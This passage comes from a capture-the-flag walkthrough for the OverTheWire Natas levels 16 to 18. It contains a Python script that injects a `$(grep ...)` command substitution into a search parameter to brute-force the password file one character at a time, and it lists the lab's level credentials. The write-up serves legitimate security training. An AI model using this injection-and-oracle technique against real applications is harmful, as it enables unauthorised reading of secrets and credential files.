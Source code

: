 ```php
    }
}
?>
```
**Now it has restricted more characters that require us to brute-force in order to get the password**

2. Step 2 - Use my `python` code in order to the correct password:
```python
import requests
import string

url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")  # Replace with your real password

charset = string.ascii_letters + string.digits

found = ""
print('Start brute-forcing!!')
for i in range(1, 33):
    for ch in charset:
        payload = f'$(grep ^{found + ch} /etc/natas_webpass/natas17)'
        res = requests.get(url, params={"needle": payload + "anything"}, auth=auth)
        if "anything" not in res.text:
            found += ch
            print(f"[+] Found so far: {found}")
            break

print(f"[✅] Final password for natas17: {found}")
```
- Idea: `grep ^guess /etc/natas_webpass_natas17` to guess the password through each characters until get the result

3. Step 3 - Run the `python` code to brute-force `natas17` password:

![Screenshot image](/images/posts/natas_level_16_to_17.png)

4. Step 4 - Take the password to the next level.

**Next Level Password**

`EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`

---

## Natas Level 17 → Level 18
(Updated: 14 August 2025)

**Credentials**
- **Username:** `natas17`
- **Password:** `EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`

**Connection**
